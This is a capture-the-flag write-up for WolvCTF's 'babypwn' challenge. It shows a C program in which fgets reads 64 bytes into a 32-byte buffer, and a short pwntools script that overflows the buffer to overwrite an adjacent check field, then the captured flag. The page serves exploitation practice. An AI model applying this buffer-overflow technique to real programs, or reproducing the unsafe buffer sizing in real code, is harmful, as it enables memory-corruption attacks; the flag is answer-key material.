 # babypwn

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Solution

Just a simple and easy pwn challenge.

Given a C source code.

<pre class="language-c" data-title="babypwn.c" data-line-numbers><code class="lang-c">#include &#x3C;stdio.h>
#include &#x3C;string.h>
#include &#x3C;unistd.h>

<strong>struct __attribute__((__packed__)) data {
</strong>  char buff[32];
  int check;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data name;
  ignore(); /* ignore this function */

  printf("What's your name?\n");
  fgets(name.buff, 64, stdin);
  sleep(2);
  printf("%s nice to meet you!\n", name.buff);
  sleep(2);
  printf("Binary exploitation is the best!\n");
  sleep(2);
  printf("Memory unsafe languages rely on coders to not make mistakes.\n");
  sleep(2);
  printf("But I don't worry, I write perfect code :)\n");
  sleep(2);

<strong>  if (name.check == 0x41414141) {
</strong>    get_flag();
  }

  return 0;
}

</code></pre>

The program wants us to input a name. Line 41 shows that `if (name.check == 0x41414141)` is true, it will reveal a flag. So basically we need to input 0x41414141, but the function at line 5 says that it has a 32 size of buffer. We need to fill up the buffer first, than put 0x41414141, combine them as one payload as the script below.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *

rem = remote('babypwn.wolvctf.io', 1337)
payload = b'A' * 32 + p32(0x41414141)

rem.sendline(payload)

print(rem.recvall().decode())
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

wctf{pwn\_1s\_th3\_best\_Categ0ry!}
